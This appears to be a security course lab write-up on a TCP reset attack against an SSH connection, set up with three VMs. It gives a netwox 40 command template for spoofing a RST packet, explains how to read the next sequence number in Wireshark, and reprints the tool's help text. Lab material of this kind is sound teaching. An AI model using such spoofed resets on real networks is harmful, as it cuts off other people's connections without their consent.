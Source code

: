 ```yaml
---
layout: post
title: "TCP Reset Attack on an SSH Connection"
date: 2021-05-25 09:00:00 -0500
categories: Network-Security-&-Defense Attacks
tags: network security ssh tcp attack
---
```

### Overview
In this demo, we will break an ssh connection between the victim and the ssh server.

### Setup
For this attack you will need 3 Linux VMs.
* VM1 as the victim (SSH client).
* VM2 as the ssh server.
* VM3 as the attacker.

The 3 VMs reside in the same network.

### Attack
The attacker, mimicking the server, only needs to send one RST packet to perform the attack. The requirement is, the attack needs to use "netwox 40" to perform this attack.

The command should be in this format:

```bash
# sudo netwox 40 --ip4-src source_ip --ip4-dst destination_ip --tcp-src source_port --tcp-dst destination_port --tcp-rst --tcp-seqnum sequence_number.
```

> **Note**: The attacker needs to use Wireshark to find out the parameter information for the above command: pay attention to the last packet sent from the server to the client, it will tell you what the next sequence number should be.
>
>See here: http://cs.boisestate.edu/~jxiao/cs333/images/tcpreset/nextseqnumber.png.
>
>Also, the next sequence number is always = current sequence number + TCP segment len.

> **Note2**: You can also mimick the client. The attack works in either direction.

Run ```bash netwox 40 --help ``` for help information, like below.

``` bash
seed@VM:~$ netwox 40 --help
Title: Spoof Ip4Tcp packet
Usage: netwox 40 [-c uint32] [-e uint32] [-f|+f] [-g|+g] [-h|+h] [-i uint32] [-j uint32] [-k uint32] [-l ip] [-m ip] [-n ip4opts] [-o port] [-p port] [-q uint32] [-r uint32] [-s|+s] [-t|+t] [-u|+u] [-v|+v] [-w|+w] [-x|+x] [-y|+y] [-z|+z] [-A|+A] [-B|+B] [-C|+C] [-D|+D] [-E uint32] [-F uint32] [-G tcpopts] [-H mixed_data]
Parameters:
 -c|--ip4-tos uint32            IP4 tos {0}
 -e|--ip4-id uint32             IP4 id (rand if unset) {0}
 -f|--ip4-reserved|+f|--no-ip4-reserved IP4 reserved
 -g|--ip4-dontfrag|+g|--no-ip4-dontfrag IP4 dontfrag
 -h|--ip4-morefrag|+h|--no-ip4-morefrag IP4 morefrag
 -i|--ip4-offsetfrag uint32     IP4 offsetfrag {0}
 -j|--ip4-ttl uint32            IP4 ttl {0}
 -k|--ip4-protocol uint32       IP4 protocol {0}
 -l|--ip4-src ip                IP4 src {172.16.77.129}
 -m|--ip4-dst ip                IP4 dst {5.6.7.8}
 -n|--ip4-opt ip4opts           IPv4 options
 -o|--tcp-src port              TCP src {1234}
 -p|--tcp-dst port              TCP dst {80}
 -q|--tcp-seqnum uint32         TCP seqnum (rand if unset) {0}
 -r|--tcp-acknum uint32         TCP acknum {0}
 -s|--tcp-reserved1|+s|--no-tcp-reserved1 TCP reserved1
 -t|--tcp-reserved2|+t|--no-tcp-reserved2 TCP reserved2
 -u|--tcp-reserved3|+u|--no-tcp-reserved3 TCP reserved3
 -v|--tcp-reserved4|+v|--no-tcp-reserved4 TCP reserved4
 -w|--tcp-cwr|+w|--no-tcp-cwr   TCP cwr
 -x|--tcp-ece|+x|--no-tcp-ece   TCP ece
 -y|--tcp-urg|+y|--no-tcp-urg   TCP urg
 -z|--tcp-ack|+z|--no-tcp-ack   TCP ack
 -A|--tcp-psh|+A|--no-tcp-psh   TCP psh
 -B|--tcp-rst|+B|--no-tcp-rst   TCP rst
 -C|--tcp-syn|+C|--no-tcp-syn   TCP syn
 -D|--tcp-fin|+D|--no-tcp-fin   TCP fin
 -E|--tcp-window uint32         TCP window {0}
 -F|--tcp-urgptr uint32         TCP urgptr {0}
 -G|--tcp-opt tcpopts           TCP options
 -H|--tcp-data mixed_data       mixed data
 --help2                        display help for advanced parameters
```
